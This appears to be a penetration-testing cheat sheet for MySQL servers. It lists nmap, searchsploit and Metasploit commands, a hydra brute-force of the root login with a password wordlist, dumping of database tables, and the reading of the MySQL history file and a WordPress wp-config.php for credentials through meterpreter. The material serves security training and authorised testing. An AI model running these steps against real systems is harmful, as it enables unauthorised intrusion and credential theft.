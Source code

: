 # MySQL
- Basic nmap scan.
  ```
  nmap -Pn -sV -sC -p3306 <ip>
  ```

- Check for existing exploits.
  ```
  searchsploit MySQL <version>
  
  search MySQL <version>
  ```

- Check MySQL version.
  ```
  use auxiliary/scanner/mysql/mysql_version
  ```

- Brute-force MySQL login.
  ```
  use auxiliary/scanner/mysql/mysql_login
  set USERNAME root
  set PASS_FILE /usr/share/wordlists/metasploit/unix_passwords.txt
  set VERBOSE false
  ```
  ```
  hydra -l root -P /usr/share/wordlists/metasploit/unix_passwords.txt <ip> mysql
  
  [ERROR] Host '<hostname>' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'
  ```

- Connect to MySQL remotely.
  ```
  mysql -u root -p -h <ip>
  
  show databases;
  use <database>;
  show tables;
  select * from <table>;
  ```

- Check mysql command history.
  ```
  cat ~/.mysql_history
  ```

- Check Web app (e.g. WordPress) config file for MySQL root credentials.
  ```
  meterpreter > cat C:\\wamp\\www\\wordpress\\wp-config.php
  
  /** MySQL database username */
  define('DB_USER', 'root');
  
  /** MySQL database password */
  define('DB_PASSWORD', '');
  ```
